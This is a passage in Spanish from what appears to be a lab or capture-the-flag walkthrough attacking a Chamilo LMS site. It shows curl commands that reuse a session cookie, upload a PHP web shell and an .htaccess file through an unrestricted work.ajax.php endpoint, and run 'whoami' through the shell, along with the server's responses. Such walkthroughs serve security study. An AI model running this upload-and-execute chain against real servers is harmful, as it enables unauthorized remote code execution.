Ahora tendremos que obtener la `Cookie` de la sesion en la siguiente seccion:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y lo pondremos en el siguiente comando:

```shell
curl -s -b 'ch_sid=<COOKIE>' 'http://chamilo.dl/main/work/work.php?cidReq=<ID_COURSE>'
```

Si nosotros nos vamos en la pagina e intentamos acceder en el curso, no nos va a cargar, pero si nos va aparecer esto en la `URL`:

```
URL = http://chamilo.dl/courses/HW/
```

Vemos que el `ID` se llama `HW`, por lo que el comando tiene que quedar algo asi:

```shell
curl -s -b 'ch_sid=<COOKIE>' 'http://chamilo.dl/main/work/work.php?cidReq=HW'
```

Seguidamente ejecutaremos el siguiente comando:

```shell
curl -b 'ch_sid=<COOKIE>' -F 'files[0]=@cmd.php' -F 'files[1]=@.htaccess' 'http://chamilo.dl/main/inc/ajax/work.ajax.php?a=upload_file&chunkAction=send'
```

Con esto lo que hacemos es que dentro del archivo `work.ajax.php` tiene un `endpoint` llamado `a` en la que se puede subir archivos sin ningun tipo de restriccion, por lo que vamos a subir el archivo `cmd.php` y el archivo `.htaccess` que tenemos en el mismo directorio con `curl` y sus respectivos argumentos para cargarlo en el servidor.

Info:

```
{"files":{"files":{"name":["cmd.php",".htaccess"],"full_path":["cmd.php",".htaccess"],"type":["application\/octet-stream","application\/octet-stream"],"tmp_name":["\/tmp\/phpWT1QhG","\/tmp\/phpqBGKJ5"],"error":[0,0],"size":[139,109]}},"errorStatus":0}
```

Con esto vemos que ha funcionado, ahora si realizamos lo siguiente veremos esto:

```shell
curl 'http://chamilo.dl/app/cache/cmd.php?cmd=whoami'
```

Info:

```
<pre>www-data
</pre>
```

